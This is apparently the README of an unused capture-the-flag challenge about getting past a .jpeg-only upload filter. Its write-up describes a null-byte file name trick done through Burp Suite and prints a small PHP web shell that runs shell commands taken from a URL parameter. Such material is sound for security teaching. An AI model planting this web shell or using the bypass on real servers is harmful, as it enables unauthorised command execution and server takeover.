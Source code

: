 # File Upload (UNUSED)

To make this challenge active, the 0s at the end of the directory names must be removed.

## Description

This site only accepts .jpeg files as uploads... or does it? Find a way to upload a different file type and hack into the server's filesystem to find the flag!

Category: Intermediate

## Hint

What character usually indicates the end of a string? Remember: file names are just strings!

## Flag

not that far...

## Write-Up

Will update as challenge progresses...
Using burp suite, intercept the request for upload of file foo.phpA.jpeg - change the A to a null char and the upload will work. You can put in a php file such as

	<?php
	$c = $_GET['c'];
	$output = shell_exec($c);
	echo "<pre>$output</pre>";
	?>
	
and gain access to the shell.